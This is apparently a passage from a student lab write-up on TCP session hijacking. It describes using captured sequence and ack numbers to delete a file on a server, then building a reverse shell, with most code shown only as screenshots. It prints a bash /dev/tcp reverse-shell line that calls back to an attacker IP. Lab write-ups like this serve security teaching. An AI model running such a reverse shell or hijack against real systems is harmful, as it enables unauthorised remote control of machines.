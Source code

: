 At this step, we implement python code using information provided by Wireshark application. We used source and destination port, sequence number and acknowledge number in the code. In addition, we add a command to delete the file we had added before (the file HelloWord.txt)

![TCP/IP](https://i.imgur.com/GjJBgmF.png)

Then we executed the code from attacker machine as shown in the below image.

![TCP/IP](https://i.imgur.com/00Vat8L.png)

The following image shows this file removed from the server.

![TCP/IP](https://i.imgur.com/QqONpWi.png)

Finally, we tried to execute commands from client machine, but we could not do anything due to the session had been hijacked before. The reason, for this issue is that the attacker had sent a packet on behalf of the client using the sequence number and ack number. As a result, these numbers changed to other numbers. Therefore, the client do not access to true numbers (seq and ack) of the session and packets sent from the client dropped.

## Creating Reverse Shell using TCP Session Hijacking 

In this task, we create reverse shell using TCP hijacking. For this goal, we first connect from the client machine to the server machine.

![TCP/IP](https://i.imgur.com/ekdwBTK.png)

Then we run the “nc” command on attacker machine to read the data across the connection.
Then, we run a command shown in the following image to catching packets transferred between client and server.

![TCP/IP](https://i.imgur.com/Tbem6oQ.png)

Then we executed “l” command on client machine which is connected to the server using telnet. The packets related to this command are capturing as a result of the previous command we executed.

![TCP/IP](https://i.imgur.com/bjU2Zrp.png)

The following image shows 9 packets captured. Then, we stop capturing and open the  stored information using Wireshark to read it.

![TCP/IP](https://i.imgur.com/TGMKl8w.png)

We run the below command to see the captured data in Wireshark:
$ wireshark /tmp/packets

![TCP/IP](https://i.imgur.com/ezMBs8F.png)

At this step we create a Python program using source and destination port, sequence and ack number to create reverse shell using TCP session hijacking. In the above code the line:
/bin/bash  -i  >  /dev/tcp/10.0.2.7/9090  0<&1  2>&1  
Creates bash shell on a remote machine connect back to the attacker’s machine.

